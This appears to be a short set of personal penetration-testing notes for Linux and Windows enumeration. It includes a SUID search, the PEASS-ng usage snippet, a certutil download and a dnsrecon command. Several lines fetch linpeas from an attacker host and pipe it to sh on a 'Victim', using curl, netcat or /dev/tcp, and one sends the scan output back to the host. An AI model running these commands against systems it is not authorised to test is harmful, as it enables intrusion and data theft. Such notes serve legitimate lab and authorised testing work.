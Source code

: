 

looks for bad permissions in SUID
find / -type f -perm -4000 2>/dev/null 

virtual host routing


[**PEASS-ng**](https://github.com/peass-ng/PEASS-ng)
```
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64

```

to grab a file to a windows computer 
certutil.exe -urlcache -f http://<lhost>/<filename> <name>

certutil is better for windows

dnsrecon for finding domains

dnsrecon -r 127.0.0.1/24 -n <ip> -d <make up a domain>

1
